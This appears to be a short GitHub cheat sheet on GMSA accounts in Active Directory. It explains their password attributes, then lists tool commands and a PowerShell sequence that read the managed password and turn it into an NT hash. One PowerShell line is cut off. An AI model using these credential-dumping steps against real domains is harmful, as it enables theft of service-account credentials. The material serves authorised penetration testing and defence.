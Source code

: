 # Reading GMSA Password (Group Managed Service Accounts)

### User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically rotated every 30 days to a randomly generated password of 256 bytes.

# GMSA Attributes in the Active Directory

#### 1) msDS-GroupMSAMembership ( PrincipalsAllowedToRetrieveManagedPassword )

 - stores the security principals that can access the GMSA password.

#### 2) msds-ManagedPassword

 - This attribute contains a BLOB with password information for group-managed service accounts.

#### 3) msDS-ManagedPasswordId

 - This constructed attribute contains the key identifier for the current managed password data for a group MSA.

#### 4) msDS-ManagedPasswordInterval

 - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.


# Extract NT hash from the Active Directory

#### 1) GMSAPasswordReader (C#) https://github.com/rvazarkar/GMSAPasswordReader

 - GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT

#### 2) gMSADumper (Python) https://github.com/micahvandeusen/gMSADumper

 - python3 gMSADumper.py -u User -p Password1 -d domain.local

#### 3) Active Directory Powershell

 - $gmsa = Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-
 
 - $blob = $gmsa.'msDS-ManagedPassword'
 
 - $mp = ConvertFrom-ADManagedPasswordBlob $blob
 
 - $hash1 = ConvertTo-NTHash -Password $mp.SecureCurrentPassword

#### 4) gMSA_Permissions_Collection.ps1 based on Active Directory PowerShell module
